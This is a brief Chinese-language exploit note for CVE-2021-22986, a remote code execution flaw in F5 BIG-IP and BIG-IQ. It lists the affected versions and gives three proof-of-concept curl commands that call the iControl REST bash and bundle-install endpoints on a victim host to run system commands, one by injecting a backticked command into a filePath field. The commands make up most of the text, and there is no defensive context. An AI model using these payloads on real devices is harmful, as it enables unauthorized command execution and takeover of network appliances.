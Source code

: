 ## CVE-2021-22986 F5 BIG-IP 远程代码执行

影响版本：
BIG-IP：
- 16.0.0-16.0.1
- 15.1.0-15.1.2
- 14.1.0-14.1.3.1
- 13.1.0-13.1.3.5
- 12.1.0-12.1.5.2

BIG-IQ：
- 7.1.0-7.1.0.2
- 7.0.0-7.0.0.1
- 6.0.0-6.1.0

poc1:
```
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'
```

poc2:
```
curl -ks https://[victimIP]/mgmt/shared/authn/login -d '{"bigipAuthCookie":"","loginReference":{"link":"http://localhost/mgmt/tm/access/bundle-install-tasks"},"filePath":"`id`"}'
```

poc3:
```
curl -ksu admin:[redacted] https://[vimtimIP]/mgmt/tm/access/bundle-install-tasks -d '{"filePath":"id"}'
```

[@wugeej](https://twitter.com/wugeej/status/1372392693989445635)